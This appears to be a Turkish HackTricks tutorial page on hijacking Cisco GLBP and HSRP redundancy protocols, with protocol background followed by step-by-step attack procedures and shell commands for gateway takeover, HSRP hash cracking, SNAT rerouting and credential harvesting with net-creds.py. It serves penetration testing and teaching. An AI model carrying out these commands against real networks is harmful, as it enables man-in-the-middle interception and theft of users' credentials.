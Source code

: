 # GLBP ve HSRP Saldırıları

{% hint style="success" %}
AWS Hacking'i öğrenin ve uygulayın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve uygulayın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) katılın veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** takip edin.**
* **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek hacking püf noktalarını paylaşın.

</details>
{% endhint %}

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP Kaçırma Genel Bakış

### FHRP Hakkında Bilgiler
FHRP, birden fazla yönlendiriciyi tek bir sanal birim haline getirerek ağın sağlamlığını sağlamayı amaçlayan bir protokol grubudur, böylece yük dağıtımı ve hata toleransı artırılır. Cisco Systems, bu pakette GLBP ve HSRP gibi önde gelen protokoller tanıttı.

### GLBP Protokolü Hakkında Bilgiler
Cisco'nun oluşturduğu GLBP, TCP/IP yığınında çalışır ve iletişim için UDP'yi 3222 numaralı portta kullanır. GLBP grubundaki yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri alışverişi yapar. Bir yönlendirici bu paketleri 10 saniye boyunca göndermezse, çevrimdışı olarak kabul edilir. Bununla birlikte, bu zamanlayıcılar sabit değildir ve değiştirilebilir.

### GLBP İşlemleri ve Yük Dağıtımı
GLBP, tek bir sanal IP ile birleştirilmiş birden fazla sanal MAC adresi kullanarak yönlendiriciler arasında yük dağıtımını sağlayarak öne çıkar. Bir GLBP grubunda, her yönlendirici paket iletimine dahil olur. HSRP/VRRP'nin aksine, GLBP, şu mekanizmalar aracılığıyla gerçek yük dengelemesi sunar:

- **Ana Bilgisayara Bağımlı Yük Dengeleme:** Bir ana bilgisayara sürekli AVF MAC adresi atamasını sağlar, istikrarlı NAT yapılandırmaları için önemlidir.
- **Round-Robin Yük Dengeleme:** Alternatif AVF MAC adresi atama yaklaşımı, istekte bulunan ana bilgisayarlar arasında dönüşümlüdür.
- **Ağırlıklı Round-Robin Yük Dengeleme:** Önceden belirlenmiş "Ağırlık" metriklerine göre yükü dağıtır.

### GLBP'de Ana Bileşenler ve Terimler
- **AVG (Aktif Sanal Ağ Geçidi):** MAC adreslerini eş yönlendiricilere atamaktan sorumlu ana yönlendirici.
- **AVF (Aktif Sanal Yönlendirici):** Ağ trafiğini yönetmek için belirlenen bir yönlendirici.
- **GLBP Önceliği:** AVG'yi belirleyen bir ölçüt, varsayılan olarak 100'den başlar ve 1 ile 255 arasında değişir.
- **GLBP Ağırlık:** Bir yönlendiricideki mevcut yükü yansıtır, manuel olarak veya Nesne İzleme aracılığıyla ayarlanabilir.
- **GLBP Sanal IP Adresi:** Bağlı tüm cihazlar için ağın varsayılan ağ geçidi olarak hizmet verir.

Etkileşimler için GLBP, 224.0.0.102 ayrılmış çoklu yayın adresini ve UDP portunu 3222 kullanır. Yönlendiriciler, 3 saniyelik aralıklarla "hello" paketleri gönderir ve bir paket 10 saniyelik bir süre içinde kaçırılırsa işlevsiz kabul edilir.

### GLBP Saldırı Mekanizması
Bir saldırgan, en yüksek öncelik değerine (255) sahip bir GLBP paketi göndererek ana yönlendirici haline gelebilir. Bu, trafik yakalama veya yönlendirme izni veren DoS veya MITM saldırılarına yol açabilir.

### Loki ile GLBP Saldırısı Gerçekleştirme
[Loki](https://github.com/raizo62/loki_on_kali), önceden öncelik ve ağırlık değerleri 255'e ayarlanmış bir paket enjekte ederek bir GLBP saldırısı gerçekleştirebilir. Saldırı öncesi adımlar, Wireshark gibi araçlar kullanılarak sanal IP adresi, kimlik doğrulama varlığı ve yönlendirici öncelik değerlerini toplamayı içerir.

Saldırı Adımları:
1. Promiskü moduna geçin ve IP yönlendirmeyi etkinleştirin.
2. Hedef yönlendiriciyi tanımlayın ve IP'sini alın.
3. Bir İstek Üzerine ARP oluşturun.
4. AVG'yi taklit eden kötü amaçlı bir GLBP paketi enjekte edin.
5. Saldırganın ağ arabirimine ikincil bir IP adresi atayın ve GLBP sanal IP'yi yansıtacak şekilde yapılandırın.
6. Tam trafik görünürlüğü için SNAT uygulayın.
7. İnternet erişimini orijinal AVG yönlendiricisi üzerinden devam ettirmek için yönlendirmeyi ayarlayın.

Bu adımları takip ederek, saldırgan kendisini ağ trafiğini, şifrelenmemiş veya hassas verileri de içeren bir "ortadaki adam" olarak konumlandırır.

Demonstrasyon için gereken komut parçaları aşağıda verilmiştir:
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### HSRP Saldırı Mekanizması

HSRP saldırıları, En Yüksek Öncelik Değerini enjekte ederek Etkin Yönlendirici'nin rolünü zorla ele geçirmeyi içerir. Bu, Orta Adam (MITM) saldırısına yol açabilir. Temel saldırı öncesi adımlar arasında HSRP kurulumu hakkında veri toplamak bulunur, bu Wireshark kullanılarak trafiğin analiz edilmesiyle gerçekleştirilebilir.

#### HSRP Kimlik Doğrulamasını Atlayma Adımları
1. HSRP verilerini içeren ağ trafiğini .pcap dosyası olarak kaydedin.
```shell
tcpdump -w hsrp_traffic.pcap
```
2. .pcap dosyasından MD5 karma değerlerini hsrp2john.py kullanarak çıkarın.
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. John the Ripper kullanarak MD5 karma değerlerini kırın.
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**Loki ile HSRP Enjeksiyonu Gerçekleştirme**

1. HSRP reklamlarını tanımlamak için Loki'yi başlatın.
2. Ağ arayüzünü promiscuous moduna ayarlayın ve IP yönlendirmeyi etkinleştirin.
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. Loki'yi belirli yönlendiriciyi hedeflemek için kullanın, kırılmış HSRP şifresini girin ve Etkin Yönlendirici'yi taklit etmek için gerekli yapılandırmaları yapın.
4. Etkin Yönlendirici rolünü aldıktan sonra, ağ arayüzünü ve IP tablolarını yapılandırarak meşru trafiği engelleyin.
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. Trafik yönlendirmek için yönlendirme tablosunu değiştirin ve önceki Etkin Yönlendirici üzerinden yönlendirin.
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. Yakalanan trafiğe ait kimlik bilgilerini almak için net-creds.py veya benzer bir yardımcı programı kullanın.
```shell
sudo python2 net-creds.py -i eth0
```

Bu adımları uygulamak, saldırganı trafiği engellemek ve manipüle etmek için bir konuma yerleştirir, GLBP ele geçirmesi için yapılan işleme benzer. Bu, HSRP gibi yedeklilik protokollerindeki zafiyeti ve sağlam güvenlik önlemlerine olan ihtiyacı vurgular.
